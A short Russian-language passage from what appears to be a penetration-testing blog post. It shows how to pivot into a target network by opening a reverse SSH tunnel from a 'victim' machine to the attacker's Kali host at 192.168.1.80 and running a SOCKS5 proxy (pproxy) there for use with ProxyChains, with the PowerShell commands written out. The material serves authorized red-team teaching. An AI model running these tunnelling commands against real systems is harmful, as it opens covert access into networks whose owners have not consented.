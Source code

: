 ## SOCKS over SSH

Как уже не раз упоминалось, настройка SOCKS-соединение с машиной-жертвой — неотъемлемая часть жизни любого этичного хакера. И в этом нам тоже может помочь Pyramid.

В модуле [Paramiko](https://github.com/paramiko/paramiko) есть готовый SSH-клиент, благодаря которому мы можем установить обратное соединение с машиной атакующего по SSH, выполнить обратный проброс локального порта с жертвы на атакующего и развернуть на жертве сервер SOCKS5, слушающий на проброшенном порту.

Сначала посмотрим, как это работает в искусственных условиях. С жертвы я подключусь к своей машине с Kali по SSH и подниму на проброшенном порту SOCKS-сервер с помощью [pproxy](https://github.com/moreati/pproxy).

```powershell
PS > ssh -R 444:127.0.0.1:443 snovvcrash@192.168.1.80
PS > pip install pproxy
PS > pproxy -l "http+socks4+socks5://127.0.0.1:443"
```

[![socks-over-ssh-demo.png](/assets/images/python-pyramid/socks-over-ssh-demo.png)](/assets/images/python-pyramid/socks-over-ssh-demo.png)
{:.center-image}

Reverse SSH + SOCKS5 = ❤️
{:.quote}

Теперь я могу настроить ProxyChains на порт 444 и взаимодействовать со внутренней сетью импровизированного «заказчика».
